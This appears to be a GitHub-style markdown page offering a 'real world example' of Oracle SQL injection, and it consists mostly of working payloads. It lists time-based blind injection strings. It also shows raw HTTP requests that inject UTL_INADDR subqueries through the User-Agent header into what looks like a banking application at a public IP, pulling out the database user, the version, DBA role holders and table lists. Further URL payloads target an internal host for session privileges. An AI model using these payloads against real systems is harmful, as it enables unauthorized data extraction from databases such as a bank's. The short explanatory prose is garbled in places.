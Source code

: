 # Real world example of Oracle SQL Injection

The UTL_INADDR package provides a PL/SQL procedures to support internet addressing.It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQ It contains two functions which return the server machine name and its IP address. 
When an Web application is being used Oracle Database. there is only possible to perform  SQL Injection PL/SQL Syntax Like **IF condition THEN when_true [ELSE when_false]**
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END
```
1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), true) -- -
1' or if(1=1, sleep(20), true) -- -
1' and if(1=1, sleep(20), false) -- -
1' or if(1=1, sleep(20), true) -- -
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT * FROM session_privs;(Retrieves Current Privs)) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
```

